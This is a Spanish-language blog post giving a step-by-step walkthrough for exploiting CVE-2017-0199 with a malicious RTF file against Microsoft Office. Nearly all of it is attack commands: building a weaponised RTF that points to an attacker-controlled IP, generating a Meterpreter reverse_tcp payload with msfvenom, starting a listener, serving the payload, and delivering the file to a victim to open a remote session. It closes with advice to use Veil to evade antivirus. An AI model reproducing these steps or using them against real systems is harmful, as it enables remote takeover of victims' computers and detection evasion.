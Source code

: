```yaml
---
layout: post
title: "Ataque con Archivos Maliciosos RTF (CVE-2017-0199)"
quote: "Hacking"
image:
      url:/assets/images/fondo.jpg
video: false
comments: true
theme_color: 302F2D
---
```

Empecemos por saber cómo funciona esta vulnerabilidad, a principios de abril se hablaba sobre este exploit que afecta a todas las versiones 
de Microsoft office, con solo abrir el documento en Word permite la ejecución de código sin requerir de que las macros se encuentren habilitadas, 
el exploit se conecta a un servidor remoto controlado por el atacante, descarga un archivo .hta y lo ejecuta.

### POC CVE-2017-0199

Creamos una carpeta e ingresamos a este directorio desde la terminal y ponemos lo siguiente:
```
git clone  https://github.com/bhdresh/CVE-2017-0199
```
Nos vamos al directorio donde hemos descargado el repositorio e ingresamos a la carpeta
{% include image.html url="http://bit.ly/2p5wDSj" %}

Damos permisos de ejecución con `chmod +x`. 
{% include image.html url="http://bit.ly/2pOHeQH" %}

Generamos nuestro archivo malicioso RTF:
```
python cve-2017-0199_toolkit.py -M gen -w uthh.rtf -u http://192.168.101.12/logo.doc
```
{% include image.html url="http://bit.ly/2qMi7ey" %}


Movemos el archivo RTF`(uthh.rtf)` al Escritorio 
{% include image.html url="http://bit.ly/2pJxerA" %}


Ahora abrimos otra Terminal y generamos nuestro payload:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.101.12 LPORT=4444 -f exe > /tmp/shell.exe
```
{% include image.html url="http://bit.ly/2qMeLZg" %}


Iniciamos un handler de escucha:
```
msfconsole -x "use multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.101.12; run"
```
Vemos que ya se encuentra a la escucha
{% include image.html url="http://bit.ly/2p5bQ1m" %}

Montaremos un servidor web para que cuando la víctima abra el archivo nosotros obtendremos una session remota.

Nos vamos a la terminal anterior donde se encuentra nuestro repositorio y ponemos lo  siguiente:
```
python cve-2017-0199_toolkit.py -M exp -e http://192.168.101.12/shell.exe -l /tmp/shell.exe
```
{% include image.html url="http://bit.ly/2qAUdWQ" %}
Veremos que el exploit ya está esperando una conexión de la víctima y que está corriendo en el puerto 80.

Pasamos el archivo RTF(uthh.rtf) que anteriormente movimos al escritorio a una maquina Windows.
Una vez que estemos en Windows abrimos el archivo `uthh.rtf`. 
{% include image.html url="http://bit.ly/2pOS72W" %}
{% include image.html url="http://bit.ly/2q8k0pV" %}

Con tan solo abrir el documento RTF, en la máquina del atacante hemos obtenido una sesision y pues ya estamos dentro de la máquina de la víctima.
{% include image.html url="http://bit.ly/2qM6Tqr" %}
{% include image.html url="http://bit.ly/2pi8V17" %}

<div class="message">
Nota: He utilizado msfvenom por lo cual es detectado por la mayoria de los Antivirus lo ideal seria utlizar Veil   
</div>

By Torres Happy Hacking
